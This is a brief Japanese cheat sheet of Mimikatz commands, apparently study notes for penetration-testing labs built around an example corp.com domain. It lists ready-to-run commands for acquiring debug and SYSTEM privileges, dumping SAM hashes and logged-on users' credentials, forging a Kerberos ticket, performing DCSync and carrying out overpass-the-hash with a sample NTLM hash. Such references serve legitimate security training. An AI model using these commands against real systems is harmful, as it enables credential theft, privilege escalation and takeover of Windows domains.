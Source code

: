 # Mimikatz
[Documentation]()

## コマンド集

1. Mimikatzのプロセスにデバッグ権限を要求して、認証情報の抽出を可能にする。SeDebugPrivlege権限を取得する。
```
privilege::debug
```

2. SYSTEM権限に昇格する
```
token::elevate
```

3. SAMデータベースからユーザのNTLMハッシュをダンプする
```
lsadump::sam
```

4. Sekurlsaモジュールを使ってログオンしているすべてのユーザの資格情報、ハッシュをダンプする
```
sekurlsa::logonpasswords
```

5. jeffadminユーザとして、ターゲットのweb04.corp.comサービスにおける認証チケットを作成する。
```
kerberos::golden /sid:<sid> /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:(ターゲットNTLMハッシュ) /user:jeffadmin
```

6. DCSYNC攻撃をするためのコマンドで、/userの引数にドメイン\ユーザの形式で指定。これでターゲットユーザの資格情報を取得できる。
```
lsadump::dcsync /user:corp\dave
```

7. Pass the HashではなくOverpass the Hash攻撃。ターゲットユーザのNTLMハッシュを使ってpowershellを起動する。  
PtHとの違いとして、Kerberosを使って認証している点がある。
```
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```